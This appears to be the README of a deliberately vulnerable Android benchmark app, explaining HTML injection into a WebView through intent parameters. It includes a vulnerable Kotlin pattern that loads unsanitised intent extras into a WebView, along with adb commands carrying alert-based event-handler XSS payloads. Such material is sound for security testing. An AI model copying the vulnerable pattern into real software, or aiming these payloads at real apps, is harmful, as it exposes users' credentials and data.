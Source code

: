 # oxo-android-ben45: HTML Injection Through Intent Parameter

## Vulnerability Overview

HTML Injection Through Intent Parameter occurs when an Android app's WebView component displays content received from intent parameters without proper sanitization. This vulnerability allows attackers to inject malicious HTML, CSS, and JavaScript code through intent extras, leading to Cross-Site Scripting (XSS) attacks within the WebView context.

## Attack Vector: Event Handler Injection with Social Engineering

**Brief Explanation**: Injection of HTML elements with malicious event handlers that execute when users interact with the content, combined with social engineering to trick users into clicking.

**Key Characteristics:**
- Uses HTML event handlers (onclick, onmouseover, onerror)
- Requires user interaction to trigger
- Can be disguised as legitimate content
- Bypasses some XSS filters that only check for script tags

**Vulnerable Code Pattern:**
```kotlin
val title = intent.getStringExtra("title") ?: "Article"
val content = intent.getStringExtra("content") ?: "Content"
val html = "<h1>$title</h1><div>$content</div>"
webView.loadData(html, "text/html", "utf-8")  // VULNERABLE!
```

## Testing

```bash
# Malicious button with onclick handler
adb shell am start -n co.ostorlab.myapplication/.HtmlViewerActivity -e content "<button onclick='alert(\"Credentials stolen: \" + prompt(\"Enter password to continue:\"))'>Click to Read Full Article</button>"

# Image with onerror handler
adb shell am start -n co.ostorlab.myapplication/.HtmlViewerActivity -e content "<img src='invalid' onerror='alert(\"Cookie: \" + document.cookie)' style='display:none'><p>Loading article...</p>"

# Hover-triggered attack
adb shell am start -n co.ostorlab.myapplication/.HtmlViewerActivity -e content "<div onmouseover='alert(\"Data stolen on hover!\")' style='padding:20px; background:#f0f0f0'>Hover over this text to read more</div>"

# Input field with onchange handler
adb shell am start -n co.ostorlab.myapplication/.HtmlViewerActivity -e content "<p>Enter your email for newsletter:</p><input type='email' onchange='alert(\"Email stolen: \" + this.value)' placeholder='your@email.com'>"

# Link with onclick handler
adb shell am start -n co.ostorlab.myapplication/.HtmlViewerActivity -e content "<a href='#' onclick='alert(\"User clicked malicious link!\"); return false;'>Click here for exclusive content</a>"
```

**Difficulty**: Easy

## Impact Assessment

- **Confidentiality**: High - Can access sensitive user input and app data
- **Integrity**: High - Can manipulate user interactions and steal credentials
- **Availability**: Medium - Can disrupt normal app functionality
- **OWASP Mobile Top 10**: M7 - Client Code Quality
- **CWE**: CWE-79 (Cross-site Scripting), CWE-20 (Improper Input Validation)
